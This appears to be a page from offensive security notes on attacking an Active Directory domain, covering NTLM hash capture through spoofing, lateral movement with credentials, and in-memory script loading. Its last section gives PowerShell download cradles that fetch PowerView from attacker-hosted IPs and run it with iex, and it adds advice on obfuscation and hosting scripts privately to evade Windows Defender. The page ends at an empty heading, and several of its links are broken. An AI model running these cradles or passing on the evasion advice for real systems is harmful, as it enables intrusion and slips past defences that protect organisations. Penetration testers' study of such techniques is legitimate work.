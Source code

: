 ## <mark style="color:red;">**MitM & Spoofing**</mark>

{% hint style="info" %}
The oldest and still, most effective technique is service spoofing and capturing NTLM hashes.
{% endhint %}

**Assuming that you are conected to the internal network (part of the domain) but dont have access to any system in the domain.**

#### **check out** [**MITM**](broken-reference)  **Section for a full list of these attacks.**

## <mark style="color:red;">Exploitation with Credentials</mark>

{% hint style="info" %}
After capturing the hashes, we can get out initial access to one of the joined systems and move up to DC.
{% endhint %}

#### Check [crackmapexec](broken-reference) and [Impacket ](broken-reference)sections.

## <mark style="color:red;">Load scripts in Memory</mark>

### <mark style="color:orange;">**Load PowerShell script reflectively**</mark>

To avoid signature based detection we should load our tools and scripts directly into target system mmoey:

```
# proxy-aware
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')

# non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText

```

for creating an opsec-safe downloader and obfuscator check out:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}

{% hint style="info" %}
In some cases windows defender will be triggered if you try to load scripts from known public sources such as github so its better if you host the script on your own machine or somewhere else.
{% endhint %}

### <mark style="color:orange;">Download Files</mark>
